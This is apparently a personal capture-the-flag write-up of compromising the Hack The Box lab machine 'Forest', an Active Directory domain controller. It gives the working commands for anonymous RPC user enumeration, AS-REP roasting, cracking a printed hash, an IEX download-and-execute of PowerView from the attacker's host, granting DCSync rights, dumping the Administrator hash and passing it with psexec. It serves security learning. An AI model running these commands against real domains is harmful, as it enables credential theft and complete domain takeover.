





No web pages
SMB requires a login
Cheated for this part as I knew nothing about RPC
We can run this command on RPC to possibly dump user data This is with an anonymous session.
rpcclient -U "" -N 10.10.10.161
Once connected run enumdomusers
Users
sebastien
lucinda
svc-alfresco
andy
mark
santi
Administrator
Guest
krbtgt
DefaultAccount
We put this into a users file and then we use GetNPUsers.py to try and dump hashes from the machine and we find one for svc-alfresco
GetNPUsers.py -no-pass -dc-ip 10.10.10.161 -usersfile users.txt htb/
-no-pass because we dont have a password. dc-ip is the machines IP -usersfile users.txt, htb/ is the domain(htb.local)
$krb5asrep$23$svc-alfresco@HTB:4f17b28cee95ee920ffa02e14a9ae13f$eeedc258fe8ae6899d5f5ce0d73fe5f0a1dfdafa475be4636b370d4b4c08db23eca9e9b69df066705b8160aad3a80eb5772dc47659099cc1b40d3cfcf481deaf84da7c29bb1d5a6efadfc00b3a239b1c59ea1b16d7cf0f66ff5982f5692ed6659769df196d8a6206aa9947e5e49093e8e32984744e0ded531f784e2e8cbe083938d5a690c453a64a492e84ae1209c72f762f39d00515624cbd66308d1216f46a77f37ad92942856f0ccf3352811a8ab689382f99c9216ff50c608d0573016c1e69ad52ff5f44480738f345811e7a9b7899bb28bd40613c54a1cfcf1b17567231
John cracks the hash
svc-alfresco:s3rvice
We can then connect to the machine with evil-winrm
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'

Interesting winpeas output
Current user: svc-alfresco Current groups: Domain Users, Everyone, Users, Builtin\Pre-Windows 2000 Compatible Access, Builtin\Remote Management Users, Account Operators, Network, Authenticated Users, This Organization, Privileged IT Accounts, Service Accounts, NTLM Authentication
Sebastian has a users directory so we may need some lateral movement
C:\Users\sebastien
Port 47001 is listening and is a http site run by system. May need to port forward with chisel and see if we can access the site.
net user testuser testuser1234 /addThe command completed successfully.
We can add users it looks like.
Nothing interesting. I uploaded sharphound and took a long time to setup blood hound but it finally works. We have WriteDacl which can get us admin and bloodhound shows us how to use it.

After this point everything went wrong and this box officially became my least favorite box. The box is old and broken so the commands do not work so we had to import the powerview.ps1 module. I spent 4-5 hours trying every guide and walkthrough and nothing worked.
I needed the powerview.ps1 script from github and it had to be the RAW version or else it wouldnt work which took forever to find.
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
Uploading the module to the machine with powershell
IEX(New-Object Net.WebClient).DownloadString("http:/10.10.14.20:8000/PowerView.ps1")
Now I can actually begin to do the box
0xdf created a one liner but essentially we would just follow all the commands bloodhound gives us. This is essentially adding our user to have DCSync rights which will allow us to dump all hashes
OnelinerAdd-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
Seeing no error after this command felt very nice as I had reset the machine 3+ times and tried 20 different powerview scripts.

Now we can run secretsdump.py and dump the hashes
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::

We can now pass the hash with impacket to sign in as Admin
impacket-psexec htb.local/Administrator@10.10.10.161 -hashes "aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6"
